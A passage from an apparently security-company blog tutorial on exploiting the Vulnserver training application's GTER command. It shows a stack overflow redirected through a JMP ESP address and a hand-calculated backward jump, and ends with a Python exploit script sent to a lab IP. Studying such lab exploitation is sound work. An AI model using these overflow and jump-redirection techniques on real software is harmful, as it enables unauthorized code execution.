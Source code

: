 To get around this space constraint, we need to jump to our bigger
buffer.

<cta-banner
  buttontxt="Read more"
  link="/solutions/penetration-testing/"
  title="Get started with Fluid Attacks' Penetration Testing solution
  right now"
/>

For jumping, we can use the unconditional jump instruction found in X86
architecture called `JMP` that will divert the execution flow to the
desired address. We also need to know where to jump.

Now look at the next image, which is the resulting location after our
`JMP ESP` execution:

<div class="imgblock">

![Location of our execution flow](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331145/blog/vulnserver-gter/jmp1_vnn3ms.webp)

</div>

As we can see, we are in the next instruction after the `JMP ESP` at the
address `00CBF9C8` (this is a stack address, so it will change every
time we run the application), and we see that we have only 20 bytes to
work.

If we scroll up, we can see that the buffer of `A` starts at `00CBF931`:

<div class="imgblock">

![Start of buffer](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331146/blog/vulnserver-gter/jmp2_yj95iy.webp)

</div>

So we need to do a relative reverse jump. Using the debugger, we can
easily calculate the offset:

<div class="imgblock">

![Relative backward jump](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331144/blog/vulnserver-gter/jmp3_gyybou.gif)

</div>

As you can see, the resulting bytes are `E9 64 FF FF FF`. Let’s update
our exploit with that jump:

**exploit.py.**

``` python
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
```